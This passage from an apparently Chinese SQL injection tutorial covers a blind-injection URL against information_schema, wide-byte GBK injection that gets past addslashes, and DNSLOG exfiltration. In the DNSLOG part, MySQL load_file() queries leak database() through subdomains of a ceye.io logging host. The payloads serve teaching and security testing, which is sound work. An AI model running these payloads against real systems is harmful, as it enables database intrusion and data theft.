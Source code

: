```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你输入 `%bf%27` 时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c`
在 GBK 中变为一个宽字符「縗」。`%bf` 那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

### DNSLOG注入

**DNS在解析的时候会留下日志，通过读取多级域名的解析日志，来获取信息。简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。**

dnslog平台：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```
![](./php/figure/preg_match/sqli1.png)

## 参考资料

-   [SQL 注入速查表](http://static.hx99.net/static/drops/tips-7840.html)
-   [MySQL 注入技巧](http://static.hx99.net/static/drops/tips-7299.html)
-   [MySQL 注入科普](http://static.hx99.net/static/drops/tips-123.html)
-   [MySQL 注入总结](http://www.91ri.org/4073.html)
-   [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)
